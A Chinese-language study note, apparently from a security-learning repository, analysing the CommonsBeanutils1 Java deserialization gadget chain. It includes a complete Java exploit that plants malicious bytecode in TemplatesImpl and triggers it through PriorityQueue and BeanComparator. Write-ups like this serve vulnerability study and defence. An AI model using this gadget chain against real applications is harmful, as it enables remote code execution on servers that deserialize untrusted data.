


# CommonsBeanutils1分析

## 1.环境搭建

```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>
```

## 2.漏洞分析

在CC2的反序列化分析中，利用到`commons-collections4`中的一些类，当引入`commons-beanutils`依赖后，可以对该链子进行一些改造。

在cb依赖中，存在一个`BeanComparator`类，其`compare(...)`代码如下：



利用`PropertyUtils.getProperty(...)`可以在指定类中获取getter。

通过`PriorityQueue`触发反序列化调用`BeanComparator#compare(...)`然后通过`PropertyUtils.getProperty(...)`调用getter。根据这个利用思路，构造exp如下：

```java
  TemplatesImpl templates = new TemplatesImpl();
  Class<?> clazz = templates.getClass();

  Field bytecodes = clazz.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[][] code = {Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/Exp.class"))};
  bytecodes.set(templates,code);

  Field name = clazz.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates,"Learning");

  Field tFactory = clazz.getDeclaredField("_tfactory");
  tFactory.setAccessible(true);
  tFactory.set(templates,new TransformerFactoryImpl());
//==========================================================================================================

  PriorityQueue<Object> queue = new PriorityQueue<>();
  queue.add(1);
  queue.add(2);

  Field field = PriorityQueue.class.getDeclaredField("queue");
  field.setAccessible(true);
  Object[] objects = (Object[]) field.get(queue);
  objects[0] = templates;

  BeanComparator comparator = new BeanComparator("outputProperties");

  Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
  field2.setAccessible(true);
  field2.set(queue, comparator);


  unSerialize(serialize(queue));
```

## 3.反序列化利用链图


